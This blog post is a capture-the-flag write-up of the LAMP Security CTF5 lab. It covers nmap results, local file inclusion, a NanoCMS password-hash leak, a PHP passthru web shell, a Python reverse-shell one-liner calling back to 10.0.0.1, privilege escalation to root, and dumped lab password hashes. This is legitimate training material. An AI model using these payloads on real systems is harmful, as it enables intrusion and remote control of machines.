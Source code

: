 ```yaml
---
layout: post
title:	"Lamp Security CTF5 Writeup"
date:	2017-12-20 21:30:00
categories:
    - blog
tags:
    - vulnhub
    - root-me
---
```


LAMP security CTF5 is a funny and easy CTF with a lot of vulnerabilities. You can find info about it on [Vulnhub.com](https://vulnhub.com).

I ran nmap to see which services were open:

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf04.root-me.org
Password:

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-13 22:39 CEST
Nmap scan report for ctf04.root-me.org (212.129.29.186)
Host is up (0.078s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0400)
445/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
Device type: WAP|general purpose|media device|broadband router|PBX
Running (JUST GUESSING): Linux 2.4.X|2.6.X (95%), Sony embedded (95%), Starbridge Networks embedded (95%), Asus embedded (94%), Cisco embedded (94%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:sony:smp-n200 cpe:/o:linux:linux_kernel:2.6 cpe:/h:starbridge_networks:1531 cpe:/h:asus:rt-ac66u cpe:/h:asus:rt-n16 cpe:/h:cisco:uc320
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (95%), Linux 2.6.27 (95%), Linux 2.6.9 – 2.6.27 (95%), Sony SMP-N200 media player (95%), Linux 2.6.21 (95%), Starbridge Networks 1531 wireless ASDL modem (95%), Linux 2.6.18 (95%), Tomato 1.28 (Linux 2.6.22) (95%), Asus RT-AC66U router (Linux 2.6) (94%), Asus RT-N16 WAP (Linux 2.6) (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 15 hops
Service Info: Hosts: localhost.localdomain, 10.66.4.100; OS: Unix
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.66 seconds
~~~

How we can see there were a lot of services, but first let’s see the website on port 80. I found a Local File Inclusion (LFI) Vulnerability:

~~~
Warning: include_once(inc/pagina.php.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6

Warning: include_once() [function.include]: Failed opening ‘inc/pagina.php.php’ for inclusion (include_path=’.:/usr/share/pear:/usr/share/php’) in /var/www/html/index.php on line 6
~~~

The warning “include_once(inc/pagina.php.php)” helped me to understand I needed a null byte:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img1.png)

Ok, I found a LFI but i needed to upload something for run code. On blog page there was this NanoCMS:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img2.png)

I found this [vulnerability](http://www.securityfocus.com/bid/34508) for NanoCMS (DirBuster found the same file):

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img3.png)

Ok I got the username and password hash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img4.png)

Authentication was successful, I created a new page containing a classic “<?php passthru($_GET[“cmd”]); ?>”:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img5.png)

I got a reverse shell on netcat by using this payload:


~~~
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect((“10.0.0.1”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”])
~~~

After some local enumeration, I discovered that the OS was vulnerable to this [exploit](http://www.exploit-db.com/exploits/9479/):

~~~
bash-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-3.2# cat /passwd
cat /passwd
237709daa3a06bde0355ff93a9de0ca9
bash-3.2#
~~~

There were much interesting things in the system, for example:

* samba users enumeration
* database credentials (LFI on configuration file of another blog)
* database content:

~~~
+—–+———-+————+———————————-+
| uid | name | login | pass |
+—–+———-+————+———————————-+
| 0 | | 0 | |
| 1 | jennifer | 1241021410 | e3f4150c722e6376d87cd4d43fef0bc5 |
| 2 | patrick | 1475888924 | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 3 | andy | 1241021903 | b64406d23d480b88fe71755b96998a51 |
| 4 | loren | 0 | 6c470dd4a0901d53f7ed677828b23cfd |
| 5 | amy | 0 | e5f0f20b92f7022779015774e90ce917 |
+—–+———-+————+———————————-+
~~~

Bye bye!!!
